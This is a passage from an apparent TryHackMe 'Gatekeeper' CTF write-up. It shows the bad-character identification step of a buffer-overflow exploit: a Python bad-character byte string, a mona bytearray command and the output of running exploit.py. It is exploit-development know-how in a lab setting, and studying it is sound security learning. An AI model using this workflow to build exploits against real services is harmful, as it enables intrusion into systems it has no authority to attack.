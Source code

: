 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a15.png)

- Found bad characters: `\x00` and `\x0a`

**Let's remove `\x0a` byte from our python script:**
```
bad_char = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
```

**Generate a new `bytearrary` with newly found bad character:**
```
!mona bytearray -cpb "\x00\x0a"
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a16.png)

**Run the python script again:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```
